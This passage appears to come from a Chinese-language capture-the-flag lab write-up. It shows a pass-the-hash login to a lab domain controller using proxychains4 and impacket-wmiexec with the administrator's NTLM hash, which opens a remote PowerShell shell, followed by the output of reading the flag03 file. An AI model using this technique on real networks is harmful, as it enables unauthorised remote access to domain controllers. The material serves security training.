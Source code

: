 使用域管 hash 登录域控，查看 flag03：

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# proxychains4 -q impacket-wmiexec xiaorang.lab/administrator@172.22.8.15 -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08 -codec GBK -shell-type powershell
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> hostname
DC01

PS C:\> type C:\Users\Administrator\flag\flag03.txt
 _________               __    _                  _
|  _   _  |             [  |  (_)                / |_
|_/ | | \_|.--.   .---.  | |  __  .---.  _ .--. `| |-'
    | |   ( (`\] / /'`\] | | [  |/ /__\\[ `.-. | | |
   _| |_   `'.'. | \__.  | |  | || \__., | | | | | |,
  |_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/


Congratulations! ! !

flag03: flag{63bb126b-495c-431d-b2de-55435d417cd0}
```
